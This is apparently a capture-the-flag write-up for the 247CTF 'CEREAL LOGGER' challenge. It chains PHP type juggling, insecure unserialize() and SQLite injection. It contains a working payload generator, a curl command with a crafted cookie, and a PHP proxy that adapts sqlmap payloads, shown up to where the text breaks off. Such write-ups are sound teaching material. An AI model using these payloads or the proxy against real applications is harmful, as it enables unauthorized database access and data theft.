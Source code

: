 ```yaml
---
title: "CEREAL LOGGER | 247CTF"
date: 2024-06-16
categories: [CHALLENGES, CEREAL LOGGER]
tags: [CHALLENGES, CTF] 
---
```


Hi, in this writeup I will solve the new hard challenge `CEREAL LOGGER`, from [247ctf](https://247ctf.com/). I will also explain how I created a simple proxy server between `SQLmap` and the challenge server that can manipulate SQLmap requests.

## Challenge source code analysis.
![IMG1](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/24a5b14d-3451-4ac3-a4e2-5855c6ce6cfb)

1) class `insert_log` is defined and has a property `new_data` has constant value "Valid access logged!"
and has `__destruct()` methode that create a new SQLite3 database connection using a database file located at `/tmp/log.db` and finally, an SQL query is executed to insert a log message `$this->new_data` into the `log` table of the database.

2) Main Script Logic: 
  - The code check if the cookie named `247` is set for incoming HTTP requests.
  - Split the cookie value at the dot with `explode(".", $_COOKIE["247"])` and Check if the second part of the split value concatenated with a random number between 0 and 247247247 equals the string "0".
  - If the condition is met, it decodes the first part of the cookie value from base64, unserializes it, and writes the result to `/dev/null` (which essentially discards the output).

## Spotting the bugs.

- The condition `explode(".", $_COOKIE["247"])[1].rand(0, 247247247) == "0"` is vulnerable to [Type juggling](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09) because it relies on PHP's type coercion, PHP uses loose comparison (==), which means it will attempt to coerce the types to make the comparison. For example, when comparing a string to a number, PHP will convert the string to a number.
- In the `__destruct()` method vulnerable to SQLi, the SQL query is constructed by directly concatenating the `new_data` property into the SQL statement, but what is `__destruct()` methode ? by asking google: 
![IMG2](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/3fff93f5-7be6-48c0-ad49-09670eac2244)

- Simple Testing: 
![IMG3](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/ddbe1977-a921-4bfd-8c11-d2325a71a75e)

- At this point, we can identify another vulnerability: `insecure deserialization` because the script decode tha first part of the cookie before dot and then unserialize it directly using `unserialize()` function.

## Chaining of bugs 

1) Exoloiting type juggling vulnerability to bypass the if condition.

2) Build a class with same name and properties (Attributes or Variables). 

3) Injecting SQL payload in `new_data` attribute before serializing object and then encode it to base64 encoded data.

## Manuel Exploiting.

We can exploit the [Type Juggling](https://www.php.net/manual/en/language.types.type-juggling.php) vulnerability by injecting data before a dot and then embedding `0e` after the dot. This allows us to bypass an if condition like `blablabla.0e`, For example, `"0e1234" == "0"` returns true because `0e1234` means `0 * 10^1234` which is zero, so whatever the random number come after e then the condition always returns true.  

In PHP, `0e1234` represents a number in scientific notation, where `0` is the coefficient and `e1234` indicates the exponent. However, because the coefficient is 0, the entire value is simply 0, regardless of the exponent, In scientific notation, the format is generally `n x 10^m`, where n is the coefficient and m is the exponent. In PHP, `0e1234` translates to `0 * 10^1234`, which is still 0.

![IMG4](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/89f5c1eb-c699-4b4c-9b36-fdd59ad3c464)

Now we can create class and try to inject SQL payload like: `0XMohomiester'); select 1 = randomblob(999999999);--`.

Note: The SQLite `randomblob()` function returns a blob containing pseudo-random bytes. The number of bytes is determined by its argument.


![IMG5](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/3132b08b-bd51-4666-bc5e-08125625a523)

```
<?php

class insert_log
{
  // SQLi payload here 
  public $new_data = "0XMohomiester'); select 1 = randomblob(999999999);--";
}
$obj = new insert_log();
// Serializing object 
$a = serialize($obj);
// Base64 encoding of serialized data and concatenate it with .0e 
$final_payload = base64_encode($a) . ".0e";
echo $final_payload;

```

Let's try it :

```
time curl -XGET https://a0351f3d2e04038e.247ctf.com/ -b '247=TzoxMDoiaW5zZXJ0X2xvZyI6MTp7czo4OiJuZXdfZGF0YSI7czo1MjoiMFhNb2hvbWllc3RlcicpOyBzZWxlY3QgMSA9IHJhbmRvbWJsb2IoOTk5OTk5OTk5KTstLSI7fQ==.0e'
```

![IMG6](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/645e72aa-4228-4a34-be67-ec1b684e9ac3)

as you can see that the response takes about 1.7 seconds with 502 status code, because we generate long number of bytes in `randomblob()` function, let's try if we created a only one byte: `randomblob(1)` 


![IMG7](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/3e431425-c0fe-40aa-9d6e-25c16f4a7b44)

yes!, the time is is about 0.5 seconds now lets try to automate this task.



## Automated Exploitation

We can exploit this bug with sqlmap but we have a some problems here, the first is that the payloads must be serialized in objects and then encode it to clearly exploit the web application and extract flag from database.

we can create a simple local web application act as `proxy server` that manage sqlmap requests and edit on any payload to serialize it and then encode it and send the data to the challange server or instance.

![IMG8](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/e755af36-3dac-45ca-975d-3d84a5f8cd2e)


Here is a simple web application using PHP!

```
<?php

$payload = $_GET['payload'];

class insert_log
{
    public $new_data;
    public function __construct($payload) {
        $this->new_data = $payload;
    }
}

$object = new insert_log($payload);
// serialize object and encode it.
$final_data = base64_encode(serialize($object));

$data = "$final_data" . ".0e";

$targetUrl = "https://a0351f3d2e04038e.247ctf.com/";

// Initialize cURL session
$ch = curl_init($targetUrl);

// Set cURL options
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

// Set the custom cookie
curl_setopt($ch, CURLOPT_COOKIE, "247=$data");

// Execute the cURL session and get the response
$response = curl_exec($ch);

// Close the cURL session
curl_close($ch);

// Output the response
echo $response;

```

we can deploy php server locally using: 
```
php -S 0.0.0.0:80
``` 

